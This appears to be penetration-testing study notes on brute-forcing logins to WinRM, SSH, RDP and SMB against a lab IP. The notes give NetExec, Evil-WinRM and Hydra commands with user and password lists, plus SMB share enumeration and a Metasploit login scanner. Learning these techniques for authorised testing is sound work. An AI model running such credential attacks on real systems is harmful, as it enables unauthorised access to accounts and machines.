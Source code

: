 Services include (but are not limited to) `FTP`, `SMB`, `NFS`, `IMAP/POP3`, `SSH`, `MySQL/MSSQL`, `RDP`, `WinRM`, `VNC`, `Telnet`, `SMTP`, and `LDAP`.


## WinRM

Port TCP : HTTP:`5985`
			HTTPS : `5986`


#### NetExec


1. Protocol Specific Help 
```sh
 netexec smb -h
```

#### Usage

```shell
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```sh
netexec winrm 10.129.42.197 -u user.list -p password.list
```


#### Evil-WinRM

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.


## SSH

```shell-session
 hydra -L user.list -P password.list ssh://10.129.42.197
```

## Remote Desktop Protocol (RDP)

```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```


## SMB

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```


However, we may also get the following error describing that the server has sent an invalid reply.
This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
netexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Msf Module
```shell-session
msf6 auxiliary(scanner/smb/smb_login) > options 
```




